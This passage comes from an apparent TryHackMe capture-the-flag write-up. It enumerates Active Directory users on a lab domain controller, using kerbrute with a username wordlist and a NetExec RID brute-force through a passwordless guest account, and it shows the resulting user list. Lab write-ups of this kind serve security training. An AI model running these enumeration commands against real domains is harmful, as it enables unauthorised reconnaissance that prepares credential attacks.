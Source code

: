 ```sh
SMB         10.10.150.50    445    DC01             Users         
```

---

### Discover Usernames

#### option |

```sh
kerbrute userenum -d SOUPEDECODE.LOCAL /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt --dc DC01.SOUPEDECODE.LOCAL
```
{: .wrap }

But sadly this option takes a lot of time

![](/images/TryHackMe/Soupedecode01/kerbrute.png)

---

#### option ||
We can Leveraging our access to the `IPC$` share, to perform a `RID brute-force` attack against a domain controller `DC01.SOUPEDECODE.LOCAL` with the `guest` account to enumerate domain users.
```sh
nxc smb DC01.SOUPEDECODE.LOCAL -u 'guest' -p '' --rid-brute 2500
```

```sh
SMB         10.10.150.50    445    DC01             1416: SOUPEDECODE\mpeter317 (SidTypeUser)
SMB         10.10.150.50    445    DC01             1417: SOUPEDECODE\bpenny318 (SidTypeUser)
...
SMB         10.10.150.50    445    DC01             1418: SOUPEDECODE\fian319 (SidTypeUser)
SMB         10.10.150.50    445    DC01             1419: SOUPEDECODE\atara320 (SidTypeUser)
...
SMB         10.10.150.50    445    DC01             1420: SOUPEDECODE\vnoah321 (SidTypeUser)
SMB         10.10.150.50    445    DC01             1421: SOUPEDECODE\prachel322 (SidTypeUser)
...
```
